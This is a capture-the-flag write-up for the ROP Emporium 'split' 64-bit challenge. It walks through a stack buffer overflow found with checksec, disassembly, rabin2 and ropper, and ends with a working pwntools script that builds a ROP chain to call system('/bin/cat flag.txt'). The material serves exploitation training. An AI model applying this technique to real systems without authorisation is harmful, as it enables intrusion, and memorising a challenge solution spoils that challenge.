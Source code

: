 # split - 64 Bit
Program execution:
```
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> <input_here>
```
Run checksec: `checksec ./split`
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Dissassembly shows that `main` executes `pwnme` again. We can see that `pwnme` unsafely reads up to `0x60` bytes into a 32 byte buffer starting at `rbp-0x20`:
```assembly
lea     rax, [rbp-0x20 {var_28}]
mov     edx, 0x60
mov     rsi, rax {var_28}
mov     edi, 0x0
call    read
```
We have more than enough bytes to work with to overwrite the return address at `rbp+0x08`, so now we just need to work out what to jump to. There's no `win` function this time.

Run `rabin2 -i split` to view a list of imported functions available to the binary:
```
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
3   0x00400570 GLOBAL FUNC       printf
4   0x00400580 GLOBAL FUNC       memset
5   0x00400590 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00000000 WEAK   NOTYPE     __gmon_start__
8   0x004005a0 GLOBAL FUNC       setvbuf
```
There is `system` available from GLIBC, so now we need to find a suitable string to either `cat` the flag or pop a shell.

We can view program string data with `rabin2 -z split`:
```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```
Using the last string will allow use to execute `system('/bin/cat flag.txt')` to print out the flag.

To do this, we need to follow the 64-bit calling convention. The first argument (in this case the address of our string) must be placed in register RDI, before we call `system`.

To achieve this we will need to use a ROP gadget like `pop rdi; ret;` which would pop the top 8 bytes off the stack and load them into RDI, before returning into the address specified by the next 8 bytes of the stack. We can check for ROP gadgets by searching the binary with `ropper`.

`ropper -f split --search 'pop rdi; ret;'`:
```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi; ret;

[INFO] File: split
0x00000000004007c3: pop rdi; ret;
```

And we have a match, so we can use this gadget in our ROP chain! Note that we'll also need a `ret` gadget first, to maintaing 16-byte alignment.

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./split"

p = process(PROG_NAME)
elf = p.elf
rop = ROP(elf)

if args.ATTACH:
	gdb.attach(p, '''break main''')

cat_flag_addr = 0x00601060

p.recvuntil(b'> ')

payload = b'A' * (0x20 + 0x8)
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(cat_flag_addr)
payload += p64(elf.symbols['system'])

p.sendline(payload)

p.interactive()
```